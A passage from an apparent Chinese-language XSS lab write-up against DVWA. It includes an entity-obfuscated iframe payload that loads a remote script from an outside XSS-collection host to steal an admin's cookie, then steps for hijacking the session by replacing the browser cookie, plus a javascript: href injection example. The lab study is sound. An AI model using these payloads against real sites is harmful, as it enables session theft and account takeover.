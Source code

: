 这里我用到dvwa靶场的medium级别。为了更好的验证，我使用了username为1337的用户进行登录。

这里我先构造js代码测试出这里存在反射型xss漏洞

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409211106-0b0bcd60-9935-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409211106-0b0bcd60-9935-1.jpg)

然后构造链接

```
http://192.168.1.3/dvwa/vulnerabilities/xss_r/?name=%3Ciframe WIDTH%3D0 HEIGHT%3D0 srcdoc%3D%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%26%23x3C%3B%26%23x73%3B%26%23x43%3B%26%23x52%3B%26%23x69%3B%26%23x50%3B%26%23x74%3B%26%23x20%3B%26%23x73%3B%26%23x52%3B%26%23x43%3B%26%23x3D%3B%26%23x22%3B%26%23x68%3B%26%23x74%3B%26%23x74%3B%26%23x70%3B%26%23x73%3B%26%23x3A%3B%26%23x2F%3B%26%23x2F%3B%26%23x78%3B%26%23x73%3B%26%23x73%3B%26%23x2E%3B%26%23x70%3B%26%23x74%3B%26%23x2F%3B%26%23x47%3B%26%23x46%3B%26%23x4C%3B%26%23x58%3B%26%23x22%3B%26%23x3E%3B%26%23x3C%3B%26%23x2F%3B%26%23x73%3B%26%23x43%3B%26%23x72%3B%26%23x49%3B%26%23x70%3B%26%23x54%3B%26%23x3E%3B%3E#
```

然后再用admin账户登录，级别为low。复制构造好的网址并访问

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409211139-1eb2f168-9935-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409211139-1eb2f168-9935-1.jpg)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409211158-2a1ef7b8-9935-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409211158-2a1ef7b8-9935-1.jpg)

然后就盗取到该cookie了，看到cookie值security=low，正好是我们设置的low级别，得知盗取admin账户的cookie成功了

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409211234-3f71b60a-9935-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409211234-3f71b60a-9935-1.jpg)

最后按F12，点击Application这一栏，将其中的cookie修改为我盗取到的admin的cookie，再刷新界面，可以看到我们变成了admin的账户，级别也变为low了

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409211304-5192e99e-9935-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409211304-5192e99e-9935-1.jpg)

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20210409211339-6643020c-9935-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409211339-6643020c-9935-1.jpg)

#### 3.1.2.2.注意

刚开始我不是用火狐的低版本浏览器来验证，而是用Microsoft Edge 88.0.705.74的高版本浏览器来验证，一直失败，最后用火狐就成功了。我觉得这里应该是涉及到了浏览器的安全策略问题，所以尽量使用低版本的浏览器来做XSS漏洞，高版本会过滤js本地的一些脚本的加载使攻击失效。

### 3.1.3.特别操作

#### 3.1.3.1.XSS之href输出

在a标签的href属性里面,可以使用javascript协议来执行js，可以尝试使用伪协议绕过。

```
javascript:alert(/xss/)
```

点击即可触发弹窗

这里是自己写的一个a标签的href属性：`<a href=javascript:alert(/xss/)>xss</a>`
